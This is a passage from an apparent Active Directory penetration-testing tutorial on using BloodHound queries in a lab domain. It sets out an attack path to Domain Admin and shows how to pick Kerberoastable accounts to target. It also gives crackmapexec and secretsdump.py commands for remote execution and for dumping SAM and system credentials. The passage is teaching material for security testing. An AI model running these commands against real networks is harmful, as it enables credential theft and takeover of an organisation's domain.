 **Attack Plan:**
1. We ARE john.doe ✓
2. We're in IT-Support group ✓ (automatic)
3. Exploit GenericWrite to compromise helpdesk-admin
4. Use helpdesk-admin to access FILE-SERVER01
5. Dump credentials on FILE-SERVER01 to get DA-ACCOUNT
6. Authenticate as DA-ACCOUNT = Domain Admin ✓

---

#### Query 2: Find Kerberoastable Accounts

**Steps:**
1. Click: "Kerberos Attacks" → "List all Kerberoastable Accounts"
2. List of users with SPNs appears

**What You See:**
```
Users with SPNs (Kerberoastable):
• SQLSERVICE@CORP.LOCAL (Has SPN: MSSQLSvc/SQL01.corp.local:1433)
• WEBSERVICE@CORP.LOCAL (Has SPN: HTTP/web01.corp.local)
• BACKUPSERVICE@CORP.LOCAL (Has SPN: backupexec/backup01.corp.local)
```

**Click on each user to see:**
- Password Last Set date (older = potentially weaker password)
- Group memberships (is this account an admin somewhere?)
- Admin rights (can we use this account for lateral movement?)

**Prioritization:**
1. Old passwords (> 2 years since password change)
2. Accounts with admin rights
3. Accounts in high-value groups

---

#### Query 3: Find Computers Where Domain Users Are Local Admin

**Steps:**
1. Click: "Local Admin Rights" → "Find Computers where Domain Users are Local Admin"
2. Shows computers with misconfiguration

**Why This Matters:**
- "Domain Users" group contains ALL domain users
- If Domain Users has local admin anywhere, ANY compromised account can exploit it

**Exploitation:**
```powershell
# If you see: WORKSTATION05.CORP.LOCAL has Domain Users as local admin

# From Kali:
crackmapexec smb 192.168.1.105 -u 'john.doe' -p 'Password123' -x "whoami"
# Output: corp\john.doe (confirms admin access)

# Dump credentials:
crackmapexec smb 192.168.1.105 -u 'john.doe' -p 'Password123' --sam
# Extracts local account hashes

secretsdump.py 'corp/john.doe:Password123@192.168.1.105'
# Dumps all credentials from system
```

---